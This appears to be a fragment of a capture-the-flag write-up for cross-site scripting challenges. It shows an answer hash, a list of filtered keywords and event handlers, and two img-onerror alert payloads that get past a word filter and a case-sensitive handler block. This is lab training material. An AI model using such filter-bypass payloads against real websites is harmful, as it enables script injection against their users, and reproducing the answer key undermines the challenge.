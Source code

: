 
*ANSWER:* a2e5ef66f5ff584a01d734ef5edaae91

3. The word hello is filtered, bypass it.

*payload:*`<img src="blah" onerror=alert("HHelloello") />`

![](Pastedimage20210612113701.png)





Filtered in challenge 4 is as follows:

-   word "Hello"
-   script
-   onerror
-   onsubmit
-   onload
-   onmouseover
-   onfocus
-   onmouseout
-   onkeypress
-   onchange

*payload:*`<img src="blah" ONERROR="alert('HHelloello')" />`
